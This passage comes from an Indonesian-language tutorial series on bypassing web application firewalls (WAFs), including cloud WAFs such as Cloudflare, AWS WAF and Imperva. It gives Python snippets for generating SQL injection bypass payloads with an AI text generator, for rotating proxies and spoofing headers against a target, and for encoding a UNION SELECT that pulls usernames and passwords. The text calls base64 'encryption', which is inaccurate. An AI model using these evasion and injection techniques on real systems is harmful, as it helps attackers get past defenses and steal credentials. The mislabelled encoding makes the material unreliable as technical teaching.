 ```
payload = generator("Generate a new SQL Injection payload:", max_length=50)

print(f"Generated AI Bypass Payload: {payload}")
```

---

# 📌 Kesimpulan

Di Part 2 ini, kita telah membahas 50+ payload bypass WAF, teknik AI-based evasion, dan berbagai cara bypass WAF modern.

Next: "Advanced Cloud-Based WAF Evasion & Adaptive Attack Techniques" 🚀


# Kamus Besar Bypass WAF - Part 3

## Advanced Cloud-Based WAF Evasion & Adaptive Attack Techniques

Pada bagian ini, kita akan membahas teknik bypass WAF berbasis cloud seperti **Cloudflare, AWS WAF, Akamai, Imperva**, serta penggunaan payload adaptif untuk menghindari deteksi.

---

## 🛡️ 1. Cloud-Based WAF Evasion

### 🔹 1.1. Proxy Rotation & Traffic Mimicking
Menggunakan **rotasi proxy** dan **spoofing header** untuk menyamarkan lalu lintas sebagai pengguna yang sah.

**Contoh Implementasi Proxy Rotation (Python):**
```python
import requests
from random import choice

proxies = ["http://proxy1.com", "http://proxy2.com", "http://proxy3.com"]
headers = {"User-Agent": choice(["Mozilla/5.0", "Safari/537.36"])}

response = requests.get("http://target.com", proxies={"http": choice(proxies)}, headers=headers)
print(response.text)
```

---

### 🔹 1.2. Encrypted Payload Injection
Menggunakan payload **terenkripsi** untuk menghindari deteksi berbasis pola.

**Contoh Payload SQLi dengan Base64 Encoding:**
```python
import base64

payload = "UNION SELECT username, password FROM users"
encoded_payload = base64.b64encode(payload.encode()).decode()

print(f"Encoded SQLi: {encoded_payload}")
```

---